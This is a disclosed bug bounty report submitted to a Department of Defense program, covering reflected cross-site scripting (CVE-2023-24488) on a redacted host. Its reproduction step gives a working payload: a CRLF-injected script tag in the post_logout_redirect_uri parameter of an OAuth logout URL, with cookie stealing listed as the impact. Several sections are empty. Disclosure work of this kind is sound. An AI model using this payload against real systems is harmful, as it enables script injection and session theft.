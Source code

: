 # CVE-2023-24488 xss on https://██████/

## Report Details
- **Report ID**: 2045549
- **URL**: https://hackerone.com/reports/2045549
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-07-01T03:41:40.402Z
- **Disclosed**: 2023-09-08T17:20:58.304Z

## Reporter
- **Username**: 0xmaruf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**


## References

## Impact

malicios js inejction , cookie stealing

## System Host(s)
█████████

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2023-24488

## Steps to Reproduce
1.  `https://█████/oauth/idp/logout?post_logout_redirect_uri=%0d%0a%0d%0a<script>alert(document.domain)</script>`

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
